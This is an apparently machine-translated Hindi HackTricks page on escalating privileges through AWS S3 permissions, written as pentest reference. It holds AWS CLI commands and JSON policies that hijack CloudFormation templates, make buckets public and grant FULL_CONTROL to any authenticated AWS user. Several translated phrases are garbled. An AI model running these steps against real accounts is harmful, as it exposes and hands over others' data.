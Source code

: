 # AWS - S3 विशेषाधिकार वृद्धि

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

इन अनुमतियों के साथ एक हमलावर दिलचस्प बकेट्स पर राजीनामा देकर संसाधनों को हाइजैक कर सकता है और विशेषाधिकारों को वृद्धि दे सकता है।

उदाहरण के लिए, "cf-templates-nohnwfax6a6i-us-east-1" नामक एक क्लाउडफॉर्मेशन बकेट पर इन **अनुमतियों के साथ एक हमलावर** डिप्लॉयमेंट को हाइजैक कर सकता है। पहुंच निम्नलिखित नीति के साथ दी जा सकती है:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
और हाइजैक संभव है क्योंकि **टेम्पलेट अपलोड किए जाने के बाद से बकेट में डिप्लॉय होने तक का एक छोटा समय विंडो होता है**। एक हमलावर बस अपने खाते में एक **लैम्बडा फंक्शन बना सकता है जो बकेट नोटिफिकेशन भेजने पर ट्रिगर होगा**, और उस बकेट की **सामग्री** को **हाइजैक** कर सकता है।

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

Pacu मॉड्यूल [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) का उपयोग इस हमले को स्वचालित करने के लिए किया जा सकता है।\
अधिक जानकारी के लिए मूल शोध देखें: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

ये अनुमतियाँ हैं **S3 में ऑब्जेक्ट प्राप्त करने और अपलोड करने** के लिए। AWS के अंदर (और बाहर) कई सेवाएं S3 स्टोरेज का उपयोग **कॉन्फ़िग फ़ाइलें** स्टोर करने के लिए करती हैं।\
उन्हें पढ़ने की **अनुमति** वाले एक हमलावर को उनमें **संवेदनशील जानकारी** मिल सकती है।\
उन्हें लिखने की **अनुमति** वाले एक हमलावर को **डेटा में परिवर्तन करने की अनुमति हो सकती है ताकि कोई सेवा का दुरुपयोग करने की कोशिश कर सके और वर्चस्व उन्नति कर सके**।\
ये कुछ उदाहरण हैं:

* यदि एक EC2 इंस्टेंस S3 बकेट में **उपयोगकर्ता डेटा स्टोर कर रहा है**, तो एक हमलावर इसे संशोधित करके **EC2 इंस्टेंस के अंदर एकाधिक कोड का क्रियान्वयन कर सकता है**।

### `s3:PutBucketPolicy`

एक हमलावर, जो **एक ही खाते से होना चाहिए**, अगर नहीं तो त्रुटि `निर्दिष्ट विधि की अनुमति नहीं दी गई है` ट्रिगर होगी, इस अनुमति के साथ खुद को बकेट(ओं) पर अधिक अनुमतियाँ प्रदान कर सकेगा जिससे उसे बकेट पर पढ़ने, लिखने, संशोधन, हटाने और प्रकट करने की अधिक अनुमतियाँ मिलेंगी।
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

एक हमलावर इन अनुमतियों का दुरुपयोग कर स्पष्ट बकेट्स पर अधिक पहुंच देने के लिए कर सकता है।\
ध्यान दें कि हमलावर को एक ही खाते से होने की आवश्यकता नहीं है। इसके अतिरिक्त लेखन अधिकता।
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

एक हमलावर इन अनुमतियों का दुरुपयोग करके बाल्ट में विशेष वस्तुओं पर अधिक पहुंच प्रदान कर सकता है।
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

इन अधिकारों के साथ एक हमलावर को एक विशिष्ट ऑब्जेक्ट संस्करण पर एक Acl डालने में सक्षम होने की उम्मीद है।
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** पर **फॉलो** करें 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
